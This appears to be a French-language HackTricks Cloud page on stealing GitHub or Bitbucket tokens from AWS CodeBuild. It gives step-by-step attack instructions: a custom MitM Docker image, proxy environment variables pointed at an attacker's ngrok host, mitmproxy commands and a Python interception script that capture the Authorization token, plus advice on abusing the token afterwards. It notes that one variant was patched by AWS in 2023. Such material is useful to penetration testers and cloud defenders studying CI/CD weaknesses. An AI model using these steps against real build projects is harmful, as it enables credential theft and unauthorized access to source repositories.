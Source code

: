 # AWS Codebuild - Fuite de jetons

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## Récupérer les jetons configurés pour Github/Bitbucket

### Via l'image Docker

Si vous constatez que l'authentification pour Github est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**jeton GH ou jeton OAuth**) en faisant en sorte que Codebuild utilise une **image Docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pouvez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pouvez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui définira les variables d'environnement `https_proxy`, `http_proxy` et `SSL_CERT_FILE`. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans `https_proxy` et `http_proxy` et de faire confiance au CERT SSL indiqué dans `SSL_CERT_FILE`.

1. **Créez et téléchargez votre propre image Docker MitM**
   * Suivez les instructions du dépôt pour définir l'adresse IP de votre proxy et définir votre certificat SSL et **construisez l'image Docker**.
     * **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les demandes vers le point de terminaison de métadonnées.
   * Vous pouvez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
   * Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définissez l'environnement**
   * Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
   * Définissez le projet pour utiliser l'**image Docker générée précédemment**
   *

       <figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Définissez le proxy MitM sur votre hôte**
   * Comme indiqué dans le **dépôt Github**, vous pouvez utiliser quelque chose comme : `mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **Exécutez la construction et capturez les informations d'identification**
   * Vous pouvez voir le jeton dans l'en-tête Authorization :

       <figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### Via le protocole HTTP

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné la semaine du 20 février 2023 (je pense le vendredi). Ainsi, un attaquant ne peut plus l'exploiter :)**
{% endhint %}

Un attaquant disposant de **permissions élevées sur un CodeBuild pourrait divulguer le jeton Github/Bitbucket** configuré ou, si les autorisations ont été configurées via OAuth, le **jeton OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild en pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changez l'URL du dépôt Github pour utiliser HTTP au lieu de HTTPS, par exemple : **http://**github.com/carlospolop-forks/TestActions
* Ensuite, exécutez l'exemple de base de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port indiqué par les variables de proxy (http\_proxy et https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Enfin, cliquez sur **Construire le projet**, les **informations d'identification** seront **envoyées en clair** (base64) sur le port mitm :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le jeton depuis sa machine, lister tous les privilèges qu'il possède et (ab)user plus facilement que s'il utilisait directement le service CodeBuild.
{% endhint %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>